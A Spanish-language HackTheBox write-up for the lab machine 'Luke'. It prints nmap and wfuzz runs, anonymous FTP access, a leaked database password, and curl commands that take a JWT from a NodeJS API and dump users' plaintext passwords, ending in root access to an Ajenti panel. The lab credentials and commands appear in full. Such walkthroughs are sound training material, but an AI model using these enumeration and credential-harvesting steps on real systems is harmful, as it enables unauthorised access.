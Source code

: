 # Máquina "Luke" de HackTheBox

**Características:**

- Linux 
- FreeBSD
- FTP Enumeration
- Information Leakage
- Abusing NodeJS Application
- API Enumeration
- Abusing Ajenti Administration Panel
- External
- FTP
- PHP
- Penetration Tester Level 1
- Anonymous/Guest Access
- A07:2021-Identification And Authentication Failures
- NodeJS
- Clear Text Credentials
- A02:2021-Cryptographic Failures
- Password Reuse
- A05:2021-Security Misconfiguration
- Misconfiguration

**Útil en:**

- eWPT

**IP:** 10.10.10.137

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14  2019 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Luke
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti
```

Lanzamos `whatweb`:

```bash
whatweb http://10.10.10.137
 
http://10.10.10.137 [200 OK] Apache[2.4.38], Bootstrap, Country[RESERVED][ZZ], Email[contact@luke.io], HTML5, HTTPServer[FreeBSD][Apache/2.4.38 (FreeBSD) PHP/7.3.3], IP[10.10.10.137], JQuery, PHP[7.3.3], Script, Title[Luke] 

whatweb http://10.10.10.137:3000

http://10.10.10.137:3000 [200 OK] Country[RESERVED][ZZ], IP[10.10.10.137], X-Powered-By[Express]
 
whatweb http://10.10.10.137:8000
 
http://10.10.10.137:8000 [200 OK] Cookies[session], Country[RESERVED][ZZ], HTML5, HttpOnly[session], IP[10.10.10.137], PasswordField[password], Script, Title[Ajenti], UncommonHeaders[x-auth-status]
```

Vemos el puerto 21 FTP, así que tratamos de conectarnos con usuario `anonymous` y podemos ingresar sin contraseña. Lanzamos:

```bash
ftp 10.10.10.137
ls -a 
```

Se puede ver `webapp`:

```bash
cd webapp
```

Y se ve un archivo `for_Chihiro.txt`:

```bash
get for_Chihiro.txt
```

Podemos ver un mensaje dentro.

Vamos a la página web y podemos ver 2 versiones desactualizadas de jQuery, que son jQuery 1.11.3 y jQuery UI 1.9.2, propensas a un XSS y a un Prototype Pollution.

En la web con el puerto 3000 vemos un mensaje que dice `(auth token is not supplied)`, con una web representada en JSON que hemos visto algunas parecidas haciendo un `Authorization Bearer` con un hash.

En el puerto 8000 ha tardado demasiado en responder con credenciales comunes, así que no vendría bien un ataque automatizado. Vemos la web normal y lanzamos `Ctrl + U` para ver el código fuente y no vemos nada interesante, así que procedemos a fuzzear con `wfuzz`. Como la web trabaja con PHP podríamos intentar fuzzear con extensiones `.php` también, así que lanzamos:

```bash
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.137/FUZZ 2>/dev/null
```

Que `-c` es con colores y solo vemos 404, así que agregamos un `--hc=404` y ahora vemos:

```bash
000000268:   301        7 L      20 W       235 Ch      "member"       
000000441:   401        12 L     46 W       381 Ch      "management"   
000000550:   301        7 L      20 W       232 Ch      "css"          
000000953:   301        7 L      20 W       231 Ch      "js"           
000001481:   301        7 L      20 W       235 Ch      "vendor"       
000003295:   200        21 L     172 W      1093 Ch     "LICENSE"      
000045240:   200        108 L    240 W      205 Ch     "monarch"
```

Vamos a `10.10.10.137/monarch`, vemos un login así que probamos con credenciales comunes y nada. Ahora vamos a `member` y vemos una página que nos muestra `parent directory`, `vendor`, etc. Recordaremos el `management`, así que ahora lanzamos el fuzzing pero con extensión `.php`:

```bash
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.137/FUZZ.php 2>/dev/null
```

Vemos un `login.php` y un `config.php`. Vemos los dos y vamos a `config.php`, damos `Ctrl + U` y vemos credenciales:

```php
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";
```

Probamos en el panel login en el puerto 8000 Ajenti y nada, no funcionó en ningún panel de autenticación. Ahora vamos a fuzzear el puerto 3000 y obtenemos:

```bash
000000002:   200        0 L      5 W        56 Ch       "#"            
000000004:   200        0 L      5 W        56 Ch       "#"            
000000053:   200        0 L      2 W        13 Ch       "login"        
000000202:   200        0 L      5 W        56 Ch       "users"        
000000825:   200        0 L      2 W        13 Ch       "Login"        
000003701:   200        0 L      5 W        56 Ch       "Users"        
000045240:   200        0 L      5 W        56 Ch       "http://10.10.10.137:3000/"   
000101629:   200        0 L      2 W        13 Ch       "LogIn"        
000148853:   200        0 L      2 W        13 Ch       "LOGIN
```

Vamos al `login` pero vemos un panel vacío, así que probablemente debamos pasarlo por POST. Con `curl` haremos lo siguiente y como va a ser JSON para que interprete bien hay que jugar con los headers:

```bash
curl -s -X POST "http://10.10.10.137:3000/login" -H "Content-Type: application/json" -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```

Nos devuelve:

```json
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY0NjE4MDA5LCJleHAiOjE2NjQ3MDQ0MDl9.3yhWHN5TtFtrJse4qSMOsTOWPMpicAsHjsmcc3rCNBo"}
```

Vemos un token que podemos pasar para ver cosas de la siguiente manera:

```bash
curl -s -X GET "http://10.10.10.137:3000/users" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY0NjE4MDA5LCJleHAiOjE2NjQ3MDQ0MDl9.3yhWHN5TtFtrJse4qSMOsTOWPMpicAsHjsmcc3rCNBo"
```

Y nos devuelve:

```json
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

Vemos 4 datos que podemos explotar de la siguiente forma:

```bash
curl -s -X GET "http://10.10.10.137:3000/users/Admin" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY0NjE4MDA5LCJleHAiOjE2NjQ3MDQ0MDl9.3yhWHN5TtFtrJse4qSMOsTOWPMpicAsHjsmcc3rCNBo"
```

Y nos devuelve:

```json
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```

Tenemos la contraseña del usuario indicado. Rescatamos la de los otros:

```bash
for user in Admin Derry Yuri Dory; do curl -s -X GET "http://10.10.10.137:3000/users/$user" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY0NjE4MDA5LCJleHAiOjE2NjQ3MDQ0MDl9.3yhWHN5TtFtrJse4qSMOsTOWPMpicAsHjsmcc3rCNBo"; done
```

Y nos devuelve:

```bash
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}{"name":"Derry","password":"rZ86wwLvx7jUxtch"}{"name":"Yuri","password":"bet@tester87"}{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Tenemos 4 paneles con lo que intentar y en `10.10.10.137/management`:

```json
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```

(Revisar fuzzeo de máquinas con APIs backend, backend 2). Vamos al `config.json` y vemos varias cosas turbias:

```bash
http://10.10.10.137/management/config.json
```

<img src="/secciones/posts/imagenes/luke/turbio.png" alt="Texto alternativo" width="500">

Probaremos en el Ajenti, usuario `root` y la contraseña `KpMasng6S5EtTy9Z` y estamos dentro. Buscamos la flag.

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.
 